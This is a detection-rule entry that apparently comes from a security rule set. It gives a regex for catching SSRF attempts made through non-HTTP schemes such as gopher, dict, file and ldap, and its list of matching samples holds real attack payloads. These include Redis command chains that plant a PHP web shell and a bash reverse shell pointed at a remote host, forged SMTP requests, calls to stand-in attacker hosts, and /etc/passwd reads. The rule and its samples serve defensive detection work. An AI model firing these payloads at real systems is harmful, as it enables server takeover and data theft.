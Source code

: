 # SQR-000-015: Detect SSRF attempt using non HTTP protocol

## Pattern:
```
^(jar:)?(file|ftp|tftp|sftp|dict|ldap|gopher|netdoc):\/\/(\/)?
```

## Maches:

* file://path/to/file
* file:///etc/passwd
* file://\/\/etc/passwd

* dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
* dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
* dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
* dict://127.0.0.1:6379/SAVE

* sftp://evil.com:11111/


* tftp://evil.com:12346/TESTUDPPACKET

* ldap://localhost:11211/%0astats%0aquit
* gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A

* gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body

* gopher://hack3r.site:1337/_SSRF%0ATest!

* gopher://0:25/_%0AHELO victim.com%0AMAIL FROM: <admin@victim.com>%0ARCPT To: <sxcurity@oou.us>


* gopher://localhost:8000/_%00%1A%00%00%0A%


* gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
* gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
* gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
* gopher://127.0.0.1:6379/_save

* netdoc:///etc/passwd


* jar:ftp://127.0.0.1!/

## no match

* http://file.mega.co.nz/
* https://www.gophercon.com
* http.ftp.example.com

